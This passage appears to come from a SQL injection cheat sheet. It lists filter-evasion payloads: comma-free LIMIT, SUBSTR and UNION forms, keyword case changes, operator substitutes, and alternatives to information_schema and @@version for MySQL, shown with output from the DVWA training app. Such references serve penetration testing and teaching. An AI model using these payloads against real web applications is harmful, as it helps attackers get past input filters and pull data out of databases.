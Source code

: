 No Comma - bypass using OFFSET, FROM and JOIN

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

Blacklist using keywords - bypass using uppercase/lowercase

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

Information\_schema.tables Alternative

```sql
select * from mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> show tables in dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```

Version Alternative

```sql
mysql> select @@innodb_version;
+------------------+
| @@innodb_version |
+------------------+
| 5.6.31           |
+------------------+

mysql> select @@version;
+-------------------------+
| @@version               |
+-------------------------+
| 5.6.31-0ubuntu0.15.10.1 |
```